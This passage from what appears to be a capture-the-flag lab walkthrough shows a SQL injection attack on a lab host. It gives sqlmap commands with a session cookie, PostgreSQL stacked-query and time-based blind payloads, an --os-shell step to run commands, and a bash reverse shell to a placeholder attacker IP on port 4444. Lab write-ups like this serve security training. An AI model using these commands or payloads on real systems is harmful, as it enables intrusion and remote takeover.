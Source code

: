``` shell
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a’--cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m"
```

Sqlmap found the page to be vulnerable to multiple injections, and
identified the backend DBMS to be PostgreSQL.

***Getting code execution in postgres is trivial using the --os-shell command.***
``` shell 
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m" --os-shell 
....
[*] starting @ 15:32:32 /2020-07-03/
....
....
Parameter: search (GET)
....
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 8079=(SELECT 8079 FROM PG_SLEEP(5))-- dEyh
....
....
[15:32:34] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[15:32:34] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image86.png"></div>


### &#9702; Privilege Escalation


This can be used to execute a shell  reverse shell .
``` shell 
bash  -c  'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image87.png"></div>
